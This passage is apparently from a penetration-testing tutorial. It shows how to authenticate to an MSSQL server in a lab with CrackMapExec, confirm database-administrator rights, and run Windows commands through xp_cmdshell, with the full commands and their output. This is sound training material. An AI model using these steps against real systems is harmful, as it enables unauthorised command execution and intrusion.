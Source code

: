***

## Executing Windows Commands

When we find an account, CrackMapExec will automatically check if the user is a DBA (Database Administrator) account or not. If we notice the output `Pwn3d!`, the user is a Database Administrator. Users with DBA privileges can access, modify, or delete a database object and grant rights to other users. This user can perform any action against the database.

### **Authenticating with a DBA Account**

```shell-session
$ crackmapexec mssql 10.129.203.121 -u nicole -p Inlanefreight02! --local-auth

MSSQL       10.129.203.121  1433   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:DC01)
MSSQL       10.129.203.121  1433   DC01             [+] nicole:Inlanefreight02! (Pwn3d!)
```

MSSQL has an [extended stored procedure](https://docs.microsoft.com/en-us/sql/relational-databases/extended-stored-procedures-programming/database-engine-extended-stored-procedures-programming?view=sql-server-ver15) called [xp\_cmdshell](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15) which allows us to execute system commands using SQL. A DBA account has the privileges to enable the features needed to execute Windows operating system commands.

To execute a Windows command, we need to use the option `-x` followed by the command we want to run:

### **Executing Windows Commands**

```shell-session
$ crackmapexec mssql 10.129.203.121 -u nicole -p Inlanefreight02! --local-auth -x whoami

MSSQL       10.129.203.121  1433   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:DC01)
MSSQL       10.129.203.121  1433   DC01             [+] nicole:Inlanefreight02! (Pwn3d!)
MSSQL       10.129.203.121  1433   DC01             [+] Executed command via mssqlexec
MSSQL       10.129.203.121  1433   DC01             --------------------------------------------------------------------------------
MSSQL       10.129.203.121  1433   DC01             inlanefreight\svc_mssql
```

{% hint style="info" %}
**Note:** Being able to execute Windows commands via MSSQL doesn't mean we are local administrators on the Windows machine. We can elevate our privileges or use this access to get more information about the target machine.
{% endhint %}

***

## Transfering Files via MSSQL
